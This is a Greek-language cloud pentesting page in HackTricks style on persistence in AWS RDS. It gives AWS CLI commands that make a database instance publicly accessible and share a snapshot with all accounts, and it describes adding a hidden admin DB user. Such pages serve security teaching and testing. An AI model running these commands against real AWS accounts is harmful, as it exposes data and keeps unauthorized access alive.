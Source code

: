 # AWS - RDS Διατήρηση

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Για περισσότερες πληροφορίες δείτε:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Κάντε το instance δημόσια προσβάσιμο: `rds:ModifyDBInstance`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να **τροποποιήσει ένα υπάρχον RDS instance για να ενεργοποιήσει τη δημόσια προσβασιμότητα**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Δημιουργία χρήστη admin μέσα στη DB

Ένας επιτιθέμενος μπορεί απλώς να **δημιουργήσει έναν χρήστη μέσα στη DB**, έτσι ώστε ακόμη και αν ο κωδικός του master user τροποποιηθεί, **να μην χάσει την πρόσβαση** στη βάση δεδομένων.

### Κάντε το snapshot δημόσιο
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
